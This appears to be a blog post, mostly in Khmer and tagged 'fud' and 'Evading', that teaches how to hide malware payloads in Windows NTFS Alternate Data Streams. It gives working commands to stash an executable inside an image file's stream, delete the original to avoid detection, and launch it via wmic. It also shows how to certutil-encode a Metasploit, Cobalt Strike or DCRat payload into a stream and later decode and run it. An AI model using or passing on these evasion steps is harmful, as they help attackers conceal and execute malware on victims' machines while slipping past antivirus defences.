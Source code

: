 ```yaml
---
title: "Malicious Alternate Data Streams In Windows"
date: 2023-07-05T21:01:06+07:00
description: លាក់ទិន្នន័យសំងាត់ក្នុងវីនដូ Data Steams
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- fud
- data-streams
categories:
- Evading
series:
- WinExE
image: images/feature3/terminal.gif
---
```


ខាងក្រោមជាវិធីសាស្ត្រក្នុងការលាក់ ផេឡូតនៅក្នុងឯកសារផ្សេងៗ។ ចំពោះកាបង្ហាញខាងក្រោមខ្ញុំនឹងសាកល្បងលាក់នៅក្នុងឯកសាររូបភាព (jpg, png, gif, etc.) ។

### Hide Payload Inside Image File

នៅក្នុងវីនដូសូមវាយពាក្យបញ្ជាដូចខាងក្រោម៖

{{< highlight cmd "linenos=table" >}}
type payload.exe > imagefile.png:payload.exe
{{< / highlight >}}

ក្រោយពីលាក់រួចយើងអាចពិនិត្យមើល ADS បានដោយប្រើពាក្យបញ្ជា <span style="color:grey;">dir /r</span> ។

សូមធ្វើការលុបឯកសាមេរោគដើមចេញ ជៀសវៀងពីការរកឃើញ៖

{{< highlight cmd "linenos=table" >}}
del payload.exe
{{< / highlight >}}

ដើម្បីដំណើរការ payload យើងអាចប្រើពាក្យបញ្ជាដូចខាងក្រោម៖

{{< highlight cmd "linenos=table" >}}
wmic.exe process call create "C:\ProgramData\imagefile.png:payload.exe"
{{< / highlight >}}

រួចរាល់ ។

### Hide Payload Through Certutil

ជាគោលគំនិតក្នុងការលាក់ Payload ក្នុង ADS ដោយប្រើប្រាស់ [Certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) ។

#### Generate ADS
ខាងក្រោមជាដំណើរការក្នុងការលាក់ Payload Strings នៅក្នុង ADS ដោយប្រើប្រាស់ពាក្យបញ្ជាដែលមានស្រាប់ក្នុង Powershell ។

បើកផ្ទាំង CMD រួចវាយពាក្យបញ្ជាខាងក្រោម៖

{{< highlight cmd "linenos=table" >}}
echo payload > hello.txt:payload.bin
{{< / highlight >}}

ពាក្យ payload នឹងរក្សាទុកនៅក្នុង ADS ដែលមានឈ្មោះថា payload.bin ។ ដើម្បីកែប្រែវាវិញយើងអាចប្រើប្រាស់កម្មវិធី Notepad ដើម្បីបើកមើលនិងកែប្រែវាបាន ដោយវាយពាក្យបញ្ជាដូចខាងក្រោម៖

{{< highlight cmd "linenos=table" >}}
notepad hello.txt:payload.bin
{{< / highlight >}}

![Generate ADS](/en/posts/img/2023/07/ads-with-certutil/generate-ads.png)

#### Certutil

បង្កើត Payload ដោយប្រើប្រាស់ Metasploit / Cobalt Strike / DCRat ។ល។ បន្ទាប់មកធ្វើវាឲ្យទៅជា Cert File ដោយវាយពាក្យបញ្ជានៅក្នុង Powershell ដូចខាងក្រោម៖

{{< highlight powershell "linenos=table" >}}
certutil -encode ./payload.exe payload.txt
{{< / highlight >}}

![Encode Certutil Payload](/en/posts/img/2023/07/ads-with-certutil/certutil-payload.png)

បន្ទាប់មកចម្លងនិងរក្សាទុកនូវចំនួនអក្សរដែលមានក្នុងឯកសារ payload.txt ទាំងអស់ចូលទៅក្នុងឯកសារ payload.bin ដែលបានបើកឡើងក្នុងដំណាក់កាលទី ១ ។

![Decode Certutil Payload](/en/posts/img/2023/07/ads-with-certutil/decode-certutil.png)

#### PWN The Payload

ដើម្បីត្រលប់ឯកសារមេរោគដែលលាក់នៅក្នុងឯកសារ ADS(payload.bin) យើងអាចប្រើប្រាស់ពាក្យបញ្ជានៅក្នុង Powershell ដូចខាងក្រោម៖

{{< highlight powershell "linenos=table" >}}
certutil -decode hello.txt:payload.bin payload.exe
{{< / highlight >}}

រួចរាល់ពេលនេះយើងអាចត្រលប់ឯកសារមេរោគនោះនិងអាចដំណើរការវាបានដូចធម្មតា ៕

![PWN](/en/posts/img/2023/07/ads-with-certutil/pwn.png)

<b>លំអិតអំពី៖</b> [ADS](https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams)
<b>ឯកសារទាក់ទង៖</b> [Malwarebytes](https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams), [Netwrix](https://blog.netwrix.com/2022/12/16/alternate_data_stream/), [Minitool](https://www.minitool.com/partition-disk/alternate-data-streams.html)